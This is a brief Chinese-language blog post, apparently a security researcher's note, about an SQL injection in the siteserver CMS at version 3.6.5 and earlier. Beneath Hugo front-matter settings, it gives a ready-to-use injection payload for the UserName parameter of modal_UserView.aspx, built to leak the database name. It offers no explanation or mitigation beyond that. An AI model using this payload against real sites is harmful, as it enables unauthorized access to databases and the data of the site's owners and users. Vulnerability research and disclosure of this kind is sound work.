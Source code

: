 ```yaml
---
title: "siteserver SQL 注入"
date: 2018-03-10T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['aspx','sqli']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



影响范围 siteserver <= 3.6.5

<!--more-->

**Payload**

`/siteserver/userRole/modal_UserView.aspx?UserName=a' or[areaid]>db_name()--`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/07/1520423900.jpg)